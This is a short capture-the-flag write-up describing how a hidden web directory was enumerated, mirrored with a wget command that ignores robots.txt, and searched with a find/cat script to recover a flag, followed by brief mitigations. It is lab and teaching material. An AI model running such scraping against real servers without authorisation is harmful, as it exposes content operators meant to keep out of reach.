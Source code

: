 ## Exploit: .hidden/ directory
### Enumeration
The `.hidden/` directory listing contains multiple nested obfuscated directory names and random plaintext README files in some.

![image](https://hackmd.io/_uploads/HkaDqC1Qge.png)

### Solution
`wget` is used with the `--execute robots=off` options to ignore the `robots.txt` used in the server that disallows crawlers to access the `.hidden` endpoint. The purpose of this command is to scrape all the files recursively into host machine for further processing

```
 wget   --recursive   --no-parent   --no-check-certificate   --execute robots=off   $TARGET_IP/.hidden/
```

A script is then used to just simply print out any README file it encounters

```bash=
# finder.sh
# Set the starting directory
START_DIR="${1:-.}"  # Default to current directory if not provided

# Traverse recursively and find README files (case-insensitive)
find "$START_DIR" -type f -iname "README*" | while read -r file; do
    cat "$file"
done
```

Run the script in the extracted directory and filter out any output that may resemble a flag, and the flag can be obtained

```
┌──(nszl㉿LAPTOP-EREU4AFG)-[~/192.168.100.130/.hidden]
└─$ bash finder.sh | grep flag
Hey, here is your flag : d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
^C
```

> The flag is `d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466`
 
### Mitigations
- robots.txt can be specifically ignored
- hidden directories can still be accessed manually
- Do not make sensitive information servable